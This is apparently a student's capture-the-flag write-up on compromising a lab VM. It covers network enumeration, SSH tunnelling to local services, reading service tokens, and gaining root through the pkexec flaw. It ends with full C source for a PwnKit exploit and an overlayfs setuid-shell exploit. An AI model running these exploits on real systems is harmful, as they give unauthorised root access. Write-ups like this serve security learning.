I got to know various things about networking and working of attacks by this challenge
## Explanation

First, I ran `ip a` to get the IP address of the VM. The IP address was `172.16.10.95`.


The webpage at that ip address looked like this
I found that the frontnd is nginx based, and nothing other than this  on the source as well as the network tabs on inspecting


I ran `nmap` and got the running processes but it didn't revealed anything further. I also checked for the nginx folder but nothing was there as well.


Now to find if any hidden page exists in the site, I tried the dirbscan with the common wordslist. Still i did not got anything


Then I tried netstat to check the currently listening servers on the vm, and got that localhost:5000 and localhost:9000 are also listening.


Then I opened this VM as an SSH instance in my host using its IP to access its localhost processes on the host (Tunneling). 


I ran dirbscan on this as well but nothing found


Then I visited the site to get something. It was the same as the previous one but, the server (like the last time at port 80 was nginx) was of python as shown


I checked for the running python tasks and found the website files!!!!


I tried to open both of them, but the control.py was protected. Still I was able to read the contents of server.py

I then tried to find the env contents which the server.py was accessing



Surprisingly i got both the tokens. (I got to know from the python script that using internal token with a get request, i will get service token)


One of the POST requests using cmd=id as {param, value} pair


I used this token send post requests (i tried 'GET' request as well but it was not implemented) after opening another localhost port (9000) which was shown by the netstat output earlier, as ssh.
with this token I, attempted to interact with the Worker (control.py). However, all standard attack vectors (XML-RPC, JSON-RPC, Shellshock) resulted in a generic `400 Bad Request` or `501 Unsupported Method`.

* **GET Requests:** Returned `501 Unsupported Method`.
* **POST Requests:** Returned `400 Bad Request`, indicating a missing specific header or parameter.
(Used python script for hit and trial)


I was tired of trying all the POST methods by the hit - and - trial method.
So, the next day I tried for Privilege escalation since the kernel version (4.4.0) is vulnerable to such numerous attacks.


Overlayfs was disabled.
But in the SUID binaries, `/usr/in/pkexec` had the SUID bit set. 


So I tried a PwnKit exploit to get the root privilege, by compiling a malicious C code, followed by resetting `PATH` variable (since the exploit needs the PATH variable to change)
And Hoorray!!!!!! I got the root access.

Then i found the flag at `/root/flag.txt`, which was `SAIC{C0ngr4ts_d0_y0u_l0v3_ST4C?}`

The Pwnkit C code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
    "#include <stdio.h>\n"
    "#include <stdlib.h>\n"
    "#include <unistd.h>\n\n"
    "void gconv() {}\n"
    "void gconv_init() {\n"
    "   setuid(0); setgid(0);\n"
    "   seteuid(0); setegid(0);\n"
    "   system(\"/bin/sh\");\n" 
    "}";

int main(int argc, char *argv[]) {
    FILE *fp;
    system("mkdir -p GCONV_PATH=.");
    system("touch GCONV_PATH=./pwnkit");
    system("chmod a+x GCONV_PATH=./pwnkit");
    system("mkdir -p pwnkit");
    
    fp = fopen("pwnkit/gconv-modules", "w");
    fprintf(fp, "module UTF-8// PWNKIT// pwnkit 2\n");
    fclose(fp);
    
    fp = fopen("pwnkit.c", "w");
    fprintf(fp, "%s", shell);
    fclose(fp);
    
    system("gcc pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
    
    char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
    execve("/usr/bin/pkexec", (char*[]){NULL}, env);
    
    return 0;
}
```
Path Variable setting command (Run after you see #):
```c
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```


Overlayfs C Code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>


int main(int argc, char *argv[]) {
    system("mkdir -p /tmp/overlay/lower /tmp/overlay/upper /tmp/overlay/work /tmp/overlay/merge");
    

    system("cp /bin/bash /tmp/overlay/lower/rootbash");
    if (system("mount -t overlay overlay -o lowerdir=/tmp/overlay/lower,upperdir=/tmp/overlay/upper,workdir=/tmp/overlay/work /tmp/overlay/merge") != 0) {
        printf("[-] Failed to mount overlay. Maybe overlayfs is not supported?\n");
        return 1;
    }

    chdir("/tmp/overlay/merge");
    system("touch rootbash");
    system("chmod u+s rootbash");
    
    chdir("/");
    system("umount /tmp/overlay/merge");
    
    printf("[+] Exploit complete. Trying to run root shell...\n");
    printf("[+] If you see a '#' prompt, you are ROOT!\n");
    system("/tmp/overlay/upper/rootbash -p");
    
    return 0;
}
```

